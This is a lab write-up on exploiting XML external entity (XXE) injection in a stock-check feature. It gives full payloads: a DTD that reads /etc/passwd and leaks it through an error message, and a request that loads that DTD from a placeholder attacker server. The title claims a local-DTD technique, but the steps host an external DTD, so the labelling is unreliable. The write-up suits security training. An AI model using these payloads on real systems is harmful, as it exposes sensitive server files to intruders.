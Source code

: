
# 1. Exploiting XXE to Retrieve Data by Repurposing a Local DTD

## 2. CVSS Score

**CVSS v3.1 Base Score: 9.1 (Critical)**
**CWE-611: Improper Restriction of XML External Entity Reference (‘XXE’)**

## 3. OWASP Top 10 Reference

* **A05:2021 – Security Misconfiguration**
* **A10:2021 – Server-Side Request Forgery (SSRF)**

---

## 4. Description of Vulnerability

This lab focuses on the exploitation of an **XML External Entity (XXE)** vulnerability, where an attacker can read the contents of sensitive files like `/etc/passwd` by crafting a **malicious DTD (Document Type Definition)**. In this case, we use the XXE to create a **parameter entity** that refers to a **local file** on the server. The attack is executed by importing the malicious DTD, which references the **`file:///etc/passwd`** and attempts to use it as part of the path for another entity, potentially leading to the exfiltration of the contents of sensitive files.

---

## 5. Detailed Explanation of What We Performed

In this lab, the malicious DTD defines an **external entity** that points to the `/etc/passwd` file on the server. The XXE vulnerability allows us to extract and display the contents of this file by leveraging Burp Suite to intercept the **POST request** used by the "Check stock" feature. The contents of the `/etc/passwd` file are returned in the application’s response, demonstrating the successful exploitation of the XXE vulnerability.

---

## 6. Step-by-Step Procedure

### Step 1: Generate Malicious DTD

1. First, we need to craft the **malicious DTD file**. The payload is designed to read the contents of `/etc/passwd` into a **parameter entity**, which will then attempt to use that entity in a file path.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

2. Save the DTD file on your server. If you're using Burp Suite, click **"Go to exploit server"** and host the file on your server.

3. After saving the DTD file, note down the **URL** where the malicious DTD is hosted (e.g., `http://your-server.com/malicious.dtd`).

### Step 2: Intercept the POST Request

4. Visit the **product page** on the application, then click **"Check stock"** to initiate the POST request.
5. In **Burp Suite**, intercept the request using **Burp Proxy**.

### Step 3: Inject the Malicious DTD into the POST Request

6. Modify the intercepted POST request to include the following **XML** payload, referencing the DTD file you created earlier:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://your-server.com/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>123</productId>
  <storeId>1</storeId>
</stockCheck>
```

7. Replace `http://your-server.com/malicious.dtd` with the actual URL of your malicious DTD file.

### Step 4: Forward the Request and Observe the Response

8. After modifying the request, forward it to the server.
9. The server will process the request, and the response should contain an error message with the contents of the `/etc/passwd` file.

---

## 7. Impact of the Vulnerability

* **Sensitive File Exposure**: This XXE vulnerability allows attackers to access and retrieve sensitive files on the server, such as `/etc/passwd`. The contents of `/etc/passwd` can be used for further exploitation, such as **privilege escalation** or **credential harvesting**.
* **Potential for Further Attacks**: By gaining access to sensitive files, attackers can escalate privileges, steal credentials, or plan further attacks.
* **Information Disclosure**: Exposing system files can provide valuable information about the server configuration, leading to a more targeted attack.

---

## 8. Recommendations and Mitigations

* **Disable DTDs**: Configure XML parsers to disable the use of `DOCTYPE` declarations and prevent external entity processing.
* **Use Secure XML Parsers**: Use libraries like **defusedxml** to prevent XXE attacks by securely parsing XML data.
* **Validate and Sanitize Input**: Ensure that all XML input is validated and sanitized before being processed, particularly for external references and entities.
* **Limit Access to Sensitive Files**: Restrict server access to sensitive files like `/etc/passwd` and ensure proper file permissions.

---

## 9. References

* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [PortSwigger XXE Guide](https://portswigger.net/web-security/xxe)

---

## 10. Proof of Concept

### Malicious DTD:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

### Exploited XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://your-server.com/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>123</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Server Response:

The response will contain an error message with the contents of `/etc/passwd`, as the XXE attack successfully exfiltrated the file data.

